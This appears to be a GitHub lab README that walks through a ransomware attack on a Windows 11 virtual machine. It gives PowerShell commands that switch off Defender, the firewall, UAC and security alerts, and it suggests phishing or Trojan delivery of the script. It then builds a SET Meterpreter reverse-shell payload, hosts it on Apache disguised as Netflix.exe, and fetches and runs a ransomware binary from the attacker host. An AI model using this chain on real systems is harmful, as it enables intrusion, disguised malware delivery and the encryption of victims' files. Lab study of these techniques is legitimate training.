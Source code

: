 # Ransomware Training Project Live Lab
## Environment Structure
### Virtualization
Platform: VirtualBox
Network Components
Firewall/Router: pfSense
Systems
Attacker Machine: Kali Linux (on the same LAN as the target)
Target Machine: PC11 with Windows 11 (on the same LAN as the attacker)
Tools Used
Metasploit: For exploit development and payload deployment
Meterpreter: For post-exploitation and reverse shell capabilities
SET Toolkit (Social Engineering Toolkit): To simulate social engineering attacks
Apache2: For hosting payloads and web-based attack vectors
PowerShell: For executing commands on Windows to disable security features and set up the reverse shell
Project Overview and Observations
The initial step in this project is to ensure that both virtual machines (attacker and target) are on the same network to avoid complexities. This configuration avoids the need for inter-LAN attacks, which would require advanced configurations like separate LANs and routing.

Disabling Security Features on Target
To prepare the Windows 11 VM, several PowerShell commands with administrative privileges are run to disable key security components:

Disable Windows Defender Real-Time Monitoring:

powershell
Copy code
Set-MpPreference -DisableRealtimeMonitoring $true
Disable Windows Firewall:

powershell
Copy code
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
Disable User Account Control (UAC):

powershell
Copy code
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0
Suppress Windows Security Notifications:

powershell
Copy code
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Notifications\Settings" -Name "NOC_GLOBAL_SETTING_TOASTS_ENABLED" -Value 0 -PropertyType DWORD -Force
After these commands, check the Windows Security UI for alerts and verify that key security features are disabled (e.g., Firewall, Virus protection, UAC, Tamper Protection).

Additional Manual Steps
Some features need manual configuration:

Disable Microsoft Defender SmartScreen:

Go to Windows Security > App & Browser Control.
Turn off Check apps and files and SmartScreen for Microsoft Edge.
Disable Tamper Protection:

Go to Windows Security > Virus & threat protection settings.
Deploying the Setup
You can compile PowerShell scripts or commands into a .ps1 file. Social engineering methods (like phishing or Trojan-style embedding) may be used to execute the script.

Network Scanning
Identify the IP Address of the Kali machine to understand the subnet.
Nmap Scan on LAN IP range 192.168.1.0/24:
bash
Copy code
nmap -sV 192.168.1.0/24
This scan identifies network endpoints, IP addresses, open ports, and services, helping locate the Windows machine.
Creating the Payload
Using the Social Engineering Toolkit (SET):

Launch SET and choose:
Option 1: Social Engineering
Option 4: Create a payload and listener
Option 2: Windows Reverse_TCP Meterpreter
Configure the payload:
Enter the IP address of your Kali machine.
Use a port, e.g., 88.
Running Apache2
The Apache2 server hosts the payload:

Check Apache2 Status:
bash
Copy code
service apache2 status
Copy the Payload:
bash
Copy code
cp /root/.set/payload.exe /var/www/html/Netflix.exe
Start Apache2 Server:
bash
Copy code
service apache2 start
Setting Up the Listener
Return to the terminal where the payload listener prompt was left open. Confirm by entering yes to load the listener in msfconsole:

bash
Copy code
msf6 exploit(multi/handler) >
Downloading and Running the Payload
To access the payload, download it on the Windows machine from the LAN address:

plaintext
Copy code
192.168.1.102/Netflix.exe
Executing the Shell and Ransomware Attack
After executing the payload, connect to the session with Meterpreter:

bash
Copy code
sessions -i 1
Download Ransomware Payload:
bash
Copy code
curl -O 192.168.1.102/CashCat.exe
Execute the Ransomware:
bash
Copy code
start CashCat.exe
This encrypts files with an extension (e.g., .porno), making them unusable. To decrypt:

plaintext
Copy code
123456789
Disclaimer
This demonstration is strictly for educational purposes, showcasing ethical hacking practices. The project emphasizes proficiency with cybersecurity tools, scripting languages, and general knowledge of cybersecurity techniques.

